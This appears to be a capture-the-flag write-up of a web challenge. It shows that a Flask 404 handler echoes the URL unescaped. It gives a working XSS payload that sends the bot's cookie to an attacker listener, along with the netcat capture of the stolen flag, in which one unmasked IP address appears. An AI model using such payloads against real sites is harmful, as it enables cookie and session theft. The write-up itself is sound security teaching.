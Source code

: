 ![BugReport index page](/assets/posts/ca-21-web-2.png){:.img-big}

To discover what was happening to the sent URLs I inspected the server source code and found out it was passed to a "bot.py" that would:

- Visit itself (at 127.0.0.1)
- Set the flag as a cookie
- Visit the submitted URL

Consequently, my first thought was to simply open a socket on my terminal, submit on the page a webhook to it, and read the cookie on the request header. Unfortunately, since the browser on the bot first visits itself, that cookie will only be valid for requests to the same host (127.0.0.1). Finally, after pointlessly wondering for ages how could I spoof my IP address and get back a message, I realized the vulnerability was not completely there. Here's the interesting snippet:

```python
@app.errorhandler(404)
def page_not_found(error):
    return "<h1>URL %s not found</h1><br/>" % unquote(request.url), 404
```

The URL is printed without escaping! It is only converted from URL-encoding back to UTF-8. So there it was, now I had a million ways to inject JS code in the page and pull out the cookie from the bot's request. I just needed to craft and submit a URL that would make the bot trigger a 404 error page and run the rendered code:

```
http://127.0.0.1:1337/<img src='fake' onError='location.href="http://***:***/"+document.cookie' />
```

And after submitting it to the bug report page, here's my netcat output:

```
$ nc -l 0.0.0.0 ***                                           
GET /flag=CHTB%7Bth1s_1s_my_bug_r3p0rt%7D HTTP/1.1
Host: ***:***
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: BugHTB/1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://127.0.0.1:1337/%3Cimg%20src='fake'%20onError='javascript:location.href=%22http://151.51.178.145:18081/%22+document.cookie'%20/%3E
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```
